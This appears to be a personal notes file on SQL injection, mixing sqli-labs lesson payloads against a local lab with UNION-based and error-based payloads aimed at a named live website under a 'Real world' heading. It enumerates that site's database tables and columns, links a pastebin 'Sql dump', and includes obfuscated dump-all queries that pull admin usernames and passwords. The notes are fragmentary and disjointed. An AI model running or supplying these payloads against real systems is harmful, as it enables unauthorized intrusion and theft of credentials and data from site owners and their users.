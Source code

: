 
Lesson 11 ==>
uname=admin999'union select 11,version()--+&passwd=admin&submit=Submit

Lesson12==>
uname=admin9999")union select 1,version()--+&passwd=admin&submit=Submit


//Real world
www.longderse.in.th/main/index.php?id=-85563 UNION SELECT 1,2,3,4,5,6,version(),database(),9,10,11,12,13,14,15,16,17,18,19,20


http://www.longderse.in.th/main/index.php?id=-85563 UNION SELECT 1,2,3,4,5,6,group_concat(table_name),8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.tables where table_schema=database()

tbweb_user

http://www.longderse.in.th/main/index.php?id=-85563 UNION SELECT 1,2,3,4,5,6,group_concat(column_name),8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.columns where table_schema=database() and table_name='tbweb_user'

Sql dump ==>
https://pastebin.com/fuy7XqKZ

(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x)

(select (@) from (select (@:=0x00), (select (@) from tbl_admin_info where (@) in (@:=/*!50000concat*/(@,user_name,0x3a,password))))a)


SQL injection bypass


mmsecurity.net/evil.js


If server side retrieve data from two table 
one table have 2 columns
another have 3 columns

From that state ==>
If used Union select 2 columns that column no. will be invalid if take 2 that show 3

http://192.168.0.111/sqli-labs-master/Less-5/?id=-1'or 1 group by concat_ws(0x3a,version(),floor(rand(0)*2)) having min(0) or 1--+

Duplicate Entry ==> error base

//Error Base
http://192.168.0.111/sqli-labs-master/Less-5/?id=1'or 1 	
--+

//Retrieve tables
http://192.168.0.111/sqli-labs-master/Less-5/?id=1'
and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
--+
